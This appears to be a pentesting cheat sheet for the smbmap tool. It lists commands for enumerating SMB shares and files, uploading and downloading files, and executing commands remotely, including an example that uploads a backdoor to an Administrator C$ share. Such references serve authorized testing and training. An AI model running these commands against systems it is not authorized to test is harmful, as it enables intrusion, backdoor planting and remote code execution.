 # smbmap


## List Shares
- List shares with credentials

      smbmap -u <USERNAME> -p <PASSWORD> -d <DOMAIN.TLD> -H $TARGET_IP

    - Ex:

          smbmap -u guest -p "" -d . -H 10.10.10.3

- List all drives on the target host

      smbmap -u <USERNAME> -p <PASSWORD> -H $TARGET_IP -L

## List files

- Recursively list all files in share

    - All shares
      
          smbmap -R <REMOTE_PATH> -H $TARGET_IP
      
    - Specific share
      
          smbmap -R <REMOTE_PATH> -H $TARGET_IP

- List contents of specified directory

      smbmap -u <USERNAME> -p <PASSWORD> -H $TARGET_IP -r '<SHARE_PATH>'


## Manipulate files

- Upload file

      smbmap -u <USERNAME> -p <PASSWORD> -H $TARGET_IP --upload '<LOCAL_PATH>' 'SHARE_PATH'

    - Ex:

          smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'

- Download file

      smbmap -u <USERNAME> -p <PASSWORD> -H $TARGET_IP --download 'SHARE_PATH'


## Execute Code

- Execute command on target host

      smbmap -u <USERNAME> -p <PASSWORD> -H $TARGET_IP -x '<COMMAND>'